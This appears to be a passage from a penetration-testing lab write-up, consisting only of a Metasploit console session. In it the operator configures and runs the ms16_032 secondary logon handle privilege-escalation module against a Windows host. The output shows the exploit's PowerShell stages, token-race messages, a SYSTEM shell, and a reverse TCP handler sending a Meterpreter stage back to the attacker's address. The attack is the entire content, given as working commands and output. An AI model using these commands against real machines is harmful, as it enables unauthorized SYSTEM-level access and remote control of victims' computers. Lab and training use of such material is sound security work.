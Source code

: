 ```
View the full module info with the info, or info -d command.

msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set lhost 10.10.14.3
lhost => 10.10.14.3
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set lport 8888
lport => 8888
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set session 1
session => 1
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[*] Started reverse TCP handler on 10.10.14.3:8888 
[+] Compressed size: 1160
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\sqKcxYUBv.ps1...
[*] Compressing script contents...
[+] Compressed size: 3757
[*] Executing exploit script...
         __ __ ___ ___   ___     ___ ___ ___ 
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|
                                            
                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1136

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[ref] cannot be applied to a variable that does not exist.
At line:200 char:3
+         $rsLX = [Ntdll]::NtImpersonateThread($eFImu, $eFImu, [ref]$hB8bP)
+         ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (hB8bP:VariablePath) [], RuntimeException
    + FullyQualifiedErrorId : NonExistingVariableReference
 
[!] NtImpersonateThread failed, exiting..
[+] Thread resumed!

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
Cannot convert argument "ExistingTokenHandle", with value: "", for "DuplicateToken" to type "System.IntPtr": "Cannot co
nvert null to type "System.IntPtr"."
At line:259 char:2
+     $rsLX = [Advapi32]::DuplicateToken($qu, 2, [ref]$cL8O)
+     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodException
    + FullyQualifiedErrorId : MethodArgumentConversionInvalidCastArgument
 
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

ivOwV0dUnQMWNZ139QP29iXMKRGqsCb1
[+] Executed on target machine.
[*] Sending stage (176198 bytes) to 10.10.10.8
```